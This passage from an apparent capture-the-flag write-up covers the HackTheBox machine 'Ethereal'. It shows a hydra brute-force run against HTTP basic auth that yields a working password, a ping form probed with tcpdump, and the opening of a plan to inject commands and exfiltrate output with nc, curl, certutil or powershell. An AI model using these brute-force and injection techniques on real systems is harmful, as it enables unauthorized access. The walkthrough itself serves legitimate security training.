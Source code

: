 Once I set my `/etc/hosts` file to reflect the hostname as I learned it from
the ping link, the page now offers http basic auth:

![1551040689973](https://0xdfimages.gitlab.io/img/1551040689973.png)

#### Hydra

I’ll use `hydra` to try all the username/password combinations from pbox. I’ll
pass in both my username list and my password list and I can just use the
`http-get` module. It returns almost instantly with a password that works:

    
    
    root@kali# hydra -L usernames -P passwords -s 8080 -f ethereal.htb http-get /
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-02-24 15:38:55
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:4/p:9), ~3 tries per task
    [DATA] attacking http-get://ethereal.htb:8080/
    [8080][http-get] host: ethereal.htb   login: alan   password: !C414m17y57r1k3s4g41n!
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-02-24 15:39:00
    

#### Ping Panel

Once I log in with alan’s credentials, I have access to a simple form:

![1551041032445](https://0xdfimages.gitlab.io/img/1551041032445.png)

If I enter 127.0.0.1 and hit enter, I get a response:

![1551041072149](https://0xdfimages.gitlab.io/img/1551041072149.png)

If I put in my own IP, and start `tcpdump`, I see the pings (2 of them):

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    15:43:53.043972 IP ethereal.htb > kali: ICMP echo request, id 1, seq 3, length 40
    15:43:53.044037 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 3, length 40
    15:43:55.068936 IP ethereal.htb > kali: ICMP echo request, id 1, seq 4, length 40
    15:43:55.068981 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 4, length 40
    

## Shell As Alan

### Enumeration

#### RCE Discovery

I wanted to see if I could inject commands into this panel. Since the only
output I see is “Connection to host successful”, I won’t be able to just add
`& whoami` to the end and see the output. The first strategy that I would try
is to send out results over the network. This is easier on Linux where I have
`nc`, `curl`, etc. On Windows, I can try `certutil`, `ping`, `powershell`.
